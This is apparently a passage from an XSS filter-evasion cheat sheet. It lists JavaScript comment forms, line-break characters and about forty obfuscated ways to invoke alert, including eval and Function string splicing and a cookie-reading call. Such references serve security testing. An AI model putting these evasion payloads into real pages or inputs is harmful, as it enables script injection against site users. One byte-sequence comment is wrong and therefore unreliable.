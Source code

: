 #### JavaScript comments \(from [JavaScript Comments](./#javascript-comments) trick\)

```javascript
//This is a 1 line comment
/* This is a multiline comment*/
#!This is a 1 line comment, but "#!" must to be at the beggining of the line
-->This is a 1 line comment, but "-->" must to be at the beggining of the line
```

#### JavaScript new lines \(from [JavaScript new line](./#javascript-new-lines) trick\)

```javascript
//Javascript interpret as new line these chars:
String.fromCharCode(10) //0x0a
String.fromCharCode(13) //0x0d
String.fromCharCode(8232) //0xe2 0x80 0xa8
String.fromCharCode(8233) //0xe2 0x80 0xa8
```

#### Arbitrary function \(alert\) call

```javascript
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie']) 
with(document)alert(cookie) 
eval('ale'+'rt(1)')
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
[9].every(alert)
[10].filter(alert)
[11].findIndex(alert)
[12].forEach(alert);
top[/al/.source+/ert/.source](1)
top[8680439..toString(30)](1)
Function("ale"+"rt(1)")();
new Function`al\ert\`6\``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`al\x65rt\x2814\x29```;
$='e'; x='ev'+'al'; x=this[x]; y='al'+$+'rt(1)'; y=x(y); x(y)
x='ev'+'al'; x=this[x]; y='ale'+'rt(1)'; x(x(y))
this[[]+('eva')+(/x/,new Array)+'l'](/xxx.xxx.xxx.xxx.xx/+alert(1),new Array)
```
